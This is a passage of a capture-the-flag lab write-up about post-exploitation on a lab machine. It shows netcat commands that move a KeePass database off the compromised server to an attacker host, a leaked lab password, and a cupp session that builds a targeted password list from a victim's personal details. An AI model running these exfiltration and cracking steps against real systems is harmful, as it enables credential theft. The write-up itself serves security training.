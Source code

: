 ## 🖥️ Searching through the Machine

Once inside, comprehensive manual enumeration was performed to understand the system's layout, user privileges, and potential misconfigurations. This involved exploring directories, checking file permissions, and looking for sensitive files.

## 🗄️ Finding Interesting Files

During the manual enumeration phase, a highly interesting file was discovered: Backup.kdbx. This file typically signifies a KeePass password database, which could contain critical credentials.

## 🛠️ Transferring the Backup.kdbx File

To analyze the Backup.kdbx file, it was transferred from the target machine to the Kali Linux system using netcat.

On the Kali Linux machine (local listener):

    nc -lvnp 444 > Backup.kdbx

On the compromised web server (sending the file):

    nc 10.6.48.108 444 < Backup.kdbx

## 📜 Generating Password Lists

To crack the Backup.kdbx file, a custom password list was generated using cupp -i. Information gleaned from emails (accessed via the adminroundcubemail.thm interface) was crucial for creating a targeted dictionary. This is also where the th3_tall3st_password_in_th3_world password for the k2 user was discovered, allowing for direct login to the WordPress admin panel.
    
    The following configuration was used for cupp -i:
    
    $ cupp -i
    
    [+] Insert the information about the victim to make a dictionary
    [+] If you don't know all the info, just hit enter when asked! ;)
    
    > First Name: Mount
    > Surname: Lhotse
    
    > Nickname: MrSecurity
    > Birthdate (DDMMYYYY): 18051956
    
    > Partners's name:
    > Partners's nickname:
    
    > Partners's birthdate (DDMMYYYY):
    
    > Child's name:
    > Child's nickname:
    
    > Child's birthdate (DDMMYYYY):
    
    > Pet's name: Lhotsy
    > Company name: BestMountainsInc
    